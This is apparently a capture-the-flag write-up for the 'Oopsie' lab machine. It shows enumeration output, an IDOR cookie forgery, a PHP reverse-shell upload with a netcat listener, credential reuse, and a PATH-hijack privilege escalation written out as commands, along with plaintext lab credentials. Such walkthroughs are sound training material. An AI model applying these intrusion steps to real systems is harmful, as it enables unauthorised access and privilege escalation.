 # Oopsie

- Target machine: 10.10.10.28

## nmap scan

```bash
# Nmap 7.91 scan initiated Wed Sep  1 18:50:10 2021 as: nmap -sC -sV -Pn -oN nmap/initial -vv 10.10.10.28
Nmap scan report for 10.10.10.28
Host is up, received user-set (0.042s latency).
Scanned at 2021-09-01 18:50:24 CEST for 9s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDxxctowbmnTyFHK0XREQShvlp32DNZ7TS9fp1pTxwt4urebfFSitu4cF2dgTlCyVI6o+bxVLuWvhbKqUNpl/9BCv/1DFEDmbbygvwwcONVx5BtcpO/4ubylZXmzWkC6neyGaQjmzVJFMeRTTUsNkcMgpkTJXSpcuNZTknnQu/SSUC5ZUNPdzgNkHcobGhHNoaJC2StrcFwvcg2ftx6b+wEap6jWbLId8UfJk0OFCHZWZI/SubDzjx3030ZCacC1Sb61/p4Cz9MvLL5qPYcEm8A14uU9pTUfDvhin1KAEEDCSCS3bnvtlw1V7SyF/tqtzPNsmdqG2wKXUb6PLyllU/L
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLaHbfbieD7gNSibdzPXBW7/NO05J48DoR4Riz65jUkMsMhI+m3mHjowOPQISgaB8VmT/kUggapZt/iksoOn2Ig=
|   256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLh0LONi0YmlZbqc960WnEcjI1XJTP8Li2KiUt5pmkk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Found services

- PORT 22: SSH
- PORT 80: Apache Server

## Webserver directory enumeration

### Using Gobuster

```
[exyss@exyss Oopsie]$ gobuster dir --url 10.10.10.28 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -o gobuster/dir-enumeration.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/01 20:20:31 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.28/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.28/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/index.php            (Status: 200) [Size: 10932]                               
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.28/js/]    
/server-status        (Status: 403) [Size: 276]                                 
/themes               (Status: 301) [Size: 311] [--> http://10.10.10.28/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.28/uploads/]
                                                                                 
===============================================================
2021/09/01 20:20:51 Finished
===============================================================
```

### Using BurpSuite

Since Gobuster seems to not have found any interesting directory, we can use BurpSuite as a web-spider, finding directories that we could miss (we're still humans after all) while using `view-source` in the browser.

![BurpSuite directory spidering](.img/burpsuite_1.png)

As we can see, we have a suspicious web-page in `http://10.10.10.28/cdn-cgi/login/`.
If we open it in a browser, we get a login form.

As we can see from this website's home page, this machine seems to be hosting the MegaCorp website. Since MegaCorp was also the name of owner of the previous challenge's target machine, we can try logging in with the very common username `admin` and the admin password found in the previous challenge `MEGACORP_4dm1n!!`

## Super-Admin access

As we can see from exploring the page Uploads `http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads`, we need super-admin priviledges. By looking at the last sent request in the BurpSuite logger, every time we try to send a request we also send two cookies, one with our Access ID and one with our account role.

If we try to access the page Account, the URL changes to `http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1`. As we can see, the GET parameter "id" is passed to the request. We can write a [python script](scripts/bruteforce.py) to bruteforce this value and find the ID of an user with higher priviledges.

After running the script, we find out a super admin account with the GET request ID 30. We can manually send a request with the found ID (`http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=30`) to find out the Access ID of this user, which is `86575`.

![BurpSuite directory spidering](.img/burpsuite_2.png)

We can now activate the BurpSuite interceptor, try to access the Upload web page and manually change value of the cookie sent to the server with the super admin Access ID.

## Obtaining a reverse shell

Once we execute the last step, we get prompted with a file upload form, which probably doesn't check for file extentions, meaning we can send a php script instead of an image.
We can now try to upload a [php reverse shell](scripts/revshell.php), which will bounce back to our netcat server. (remember to change the script with your ip and port).

After uploading the script, we have to start our netcat server with `netcat -lvnp 1234` and then run `curl http://10.10.10.28/uploads/revshell.php` to get our reverse shell. The flag can be found in the folder `/home/robert/user.txt`

## Logging in as Robert

Checking through the website files in the directory `/var/www/html/`, we can access the subdirectory `cdn-cgi/login` to find a file containg some MySQLi DBMS access credentials regarding the user Robert.

```bash
$ pwd
/var/www/html/cdn-cgi/login

$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Since the same password is also used on the target machine, we can use these credentials to login as Robert by running `su robert`.
__ATTENTION__: you probably need to spawn a TTY terminal before running this command. You can fix this by running `/usr/bin/script -qc /bin/bash /dev/null`

## Priviledge escalation

By running `id` we can see that Robert is in a group called `bugtracker`. We can search for files and folders accessible only to users within this group using the command `find / -group bugtracker`, skipping every error and/or permission denied message by redirecting the error output with `2> /dev/null`

```bash
robert@oopsie:/$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)

robert@oopsie:/$ find / -group bugtracker 2> /dev/null            
find / -group bugtracker 2>/dev/null 
/usr/bin/bugtracker

robert@oopsie:/usr/bin$ ls -la /usr/bin/bugtracker
ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

robert@oopsie:/$ 
```

As we can see, there is a program called bugtracker with the setuid option turned on (-rwsr-xr--), meaning that the program will be run as root even when executed by normal users.

Using `strings bugtracker` we can see that the program runs `cat /root/reports` while executing the bugtracking program. Since the cat program is called using a relative path and not an absolute path, we can create a fake cat program in the /tmp folder that spawns a shell, which will be spawn as root due to the temporary priviledge elevation given by the setuid option.

```bash
robert@oopsie:/usr/bin$ export PATH=/tmp:$PATH

robert@oopsie:/usr/bin$ cd /tmp/

robert@oopsie:/tmp$ echo '/bin/sh' > cat

robert@oopsie:/tmp$ chmod +x cat

robert@oopsie:/tmp$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

root@oopsie:/tmp# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)

root@oopsie:/tmp# 
```

Now we have full access to the machine. The root flag can be found in the `/root` folder
__ATTENTION__: remember that we have created a fake cat program, so you must run `/bin/cat` in order to see the flag

__BONUS NOTE__: inside the root folder there is also a `.config` file containg the credentials `ftpuser / mc@F1l3ZilL4`